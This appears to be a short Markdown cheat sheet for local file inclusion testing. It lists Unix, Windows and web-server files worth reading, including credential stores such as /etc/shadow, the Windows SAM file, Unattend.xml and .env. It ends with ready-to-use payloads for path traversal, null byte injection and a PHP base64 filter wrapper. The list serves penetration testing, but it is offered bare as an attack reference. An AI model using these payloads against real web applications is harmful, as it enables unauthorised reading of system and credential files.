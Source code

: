   

### Files to Check for LFI Vulnerabilities

```Markdown

# System Files (Unix/Linux)

/etc/passwd - User account information

/etc/shadow - User password hashes (requires higher privileges)

/etc/group - Group information

../../../../../etc/hosts - Hostname to IP mappings

/etc/issue - System identification text

/etc/motd - Message of the day

/etc/resolv.conf - DNS resolver configuration

/etc/fstab - Filesystem mounts

/proc/self/environ - Environment variables

/proc/self/cmdline - Command line arguments

/proc/version - Kernel version


# System Files (Windows)

C:\Windows\win.ini - Basic system configuration

C:\Windows\System32\drivers\etc\hosts - Hostname to IP mappings

C:\boot.ini - Boot configuration (older Windows)

C:\Windows\repair\SAM - Password hashes (if accessible)

C:\Windows\Panther\Unattend.xml - May contain credentials

# Web Server Files

Configuration files: config.php, settings.ini, .env

Database credentials files

Session files (location varies by system)

robots.txt - May reveal interesting paths

phpinfo.php - If present, can reveal system info


# Techniques to Try

Path traversal: ../../../../etc/passwd

Null byte injection: ../../etc/passwd%00

PHP wrappers: php://filter/convert.base64-encode/resource=index.php

```